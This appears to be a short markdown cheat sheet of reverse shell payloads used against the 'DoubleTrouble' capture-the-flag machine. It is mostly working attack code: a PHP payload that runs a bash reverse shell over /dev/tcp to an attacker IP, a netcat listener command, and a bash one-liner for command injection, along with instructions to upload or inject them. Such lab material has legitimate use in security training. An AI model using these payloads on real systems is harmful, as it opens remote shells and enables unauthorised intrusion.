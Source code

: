 # 💻 Reverse Shell Payloads

This file contains reverse shell payloads used during exploitation of the **DoubleTrouble CTF machine**.

---

## PHP Reverse Shell
Upload or inject this payload into the target system to establish a reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.5/4444 0>&1'");
?>
```
- Replace 10.0.2.5 with your attacker IP.
- Replace 4444 with the port used by your listener.
___
### Netcat Listener
On the attacker machine, start a netcat listener to catch the reverse shell:
```bash
nc -lvnp 4444
```
___
### Alternative Bash One-Liner
If command injection is possible, use this one-liner directly:
```bash
bash -i >& /dev/tcp/10.0.2.5/5555 0>&1
```
___
### Notes
- Ensure your firewall or host machine allows the chosen port.
- Reverse shell execution confirms remote code execution on the target.